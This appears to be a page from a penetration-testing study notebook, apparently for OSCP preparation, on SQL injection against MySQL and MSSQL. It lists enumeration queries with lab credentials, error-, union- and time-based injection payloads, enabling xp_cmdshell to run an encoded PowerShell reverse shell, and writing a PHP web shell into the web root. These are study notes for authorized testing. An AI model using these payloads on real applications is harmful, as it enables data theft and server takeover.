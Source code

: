 ```yaml
---
description: >-
  SQL injection (SQLi) is a web security vulnerability that allows an attacker
  to interfere with the queries a web application makes to its database. By
  manipulating input fields.
---
```


# SQL Injection (SQLi)

## Enumeration

### MySQL

[MySQL ](https://dev.mysql.com/doc/)is a popular open-source relational database management system (RDBMS) often used in web applications. It’s a common target for attackers due to its widespread use and the potential to expose sensitive data through SQL injection or other vulnerabilities.

connect to `mysql` remotely

```bash
mysql -u root -p'root' -h 192.168.191.16 -P 3306
```

retrieve the version of the running SQL instance

```sql
select version();
```

retrieve the current username and hostname for the MySQL connection.

```sql
select system_user();
```

list all of the databases running in the MYSQL session.

```sql
show databases;
```

retrieve mysql user password hash

```sql
select user, authentication_string from mysql.user where user = '<username>';
```

A trick to output vertically and get normal formatting

```bash
select * from mysql.user where user = 'offsec'\G;
```

### MSSQL

[MSSQL](http://www.microsoft.com/sqlserver) is a database management system that natively integrates into the Windows ecosystem.

* Windows has a built-in command-line tool named [_SQLCMD_](https://docs.microsoft.com/en-us/sql/tools/sqlcmd-utility), that allows SQL queries to be run through the Windows command prompt or even remotely from another machine.

connect to mssql using windows authentication

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

retrieve the version of the running SQL instance

```sql
select @@version;
```

list all of the databases running in the MYSQL session.

```sql
select name from sys.databases;
```

list `dbo` users of the current database

```sql
select * from offsec.dbo.users;
```

list all of the database tables

```sql
select * from offsec.information_schema.tables;
```

## Manual Exploitation

### Error Based

**Error-based SQL injection** relies on extracting information from the database by triggering error messages that reveal valuable details.

The following examples show how to trigger errors and extract information using Error-Based injection:

```sql
' or 1=1 in (select @@version)-- -
```

```sql
' or 1=1 in (select password from users where username = 'admin')-- -
```

### **Union Based**

**Union-based SQL injection** enables attackers to concatenate results of malicious query with a legitimate one by using `union` operator, allowing them to retrieve additional information from other tables.

In order to make the **union-based SQL injection** work, the attacker must satisfy two conditions:

1. Ensure that the **number of columns** in the injected query match those of the original query .

The number of columns can be found using `ORDER BY` and incrementing the number until the query failed:

```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
etc...
```

It's less recommended but it possible also to enumerate the number of columns using `UNION` and `NULL` values until the query works:

```
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
etc...
```

2. Ensure that the **data types** in the injected query match those of the original query.

The following examples describes the process of finding string column, when the query works means the column using `'a'` is a string column.

```
' UNION SELECT 'a',NULL,NULL,NULL-- -
' UNION SELECT NULL,'a',NULL,NULL-- -
' UNION SELECT NULL,NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,NULL,'a'-- -
etc...
```

### Boolean-Based

**Boolean-based SQL injection** is used in case the query does not reflect the results of the injected query, so it relies on extracting information by using conditions and changes of the web application.

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

### MSSQL System Procedures&#x20;

SQL Server supports the following system stored procedures that provide an interface from an instance of SQL Server to external programs, for various maintenance activities.

* [xp\_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)
* [xp\_enumgroups](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-enumgroups-transact-sql?view=sql-server-ver15)
* [xp\_grantlogin](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-grantlogin-transact-sql?view=sql-server-ver15)
* [xp\_logevent](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-logevent-transact-sql?view=sql-server-ver15)
* [xp\_logininfo](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-logininfo-transact-sql?view=sql-server-ver15)
* [xp\_msver](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-msver-transact-sql?view=sql-server-ver15)
* [xp\_revokelogin](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-revokelogin-transact-sql?view=sql-server-ver15)
* [xp\_sprintf](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-sprintf-transact-sql?view=sql-server-ver15)
* [xp\_sqlmaint](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-sqlmaint-transact-sql?view=sql-server-ver15)
* [xp\_sscanf](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-sscanf-transact-sql?view=sql-server-ver15)

**xp\_cmdshell** procedure allows **sysadmin** to execute os commands

Enable `xp_cmdshell` procedure:

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

exec('sp_configure''show+advanced+option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')
```

Execute commands using `xp_cmdshell:`

```sql
EXECUTE xp_cmdshell 'whoami';

exec master..xp_cmdshell 'powershell -e <base64_revshell>'
```

### Create Files

It's possible to create a file on the server disk using SQL query for example:

```sql
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/tmp/webshell.php"
```

## Automated Exploitation

**sqlmap** is a tool which used to automate exploit a SQLi vulnerability given request with the vulnerable parameter.

**sqlmap** is **not allowed** in the OSCP exam so I won't dig in it.

```bash
sqlmap -r request.txt -p item 
```

{% embed url="https://github.com/sqlmapproject/sqlmap" %}
sqlmap - automated sqli tool
{% endembed %}

## References

{% embed url="https://learn.microsoft.com/en-us/sql/sql-server" %}

{% embed url="https://dev.mysql.com/doc/" %}

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

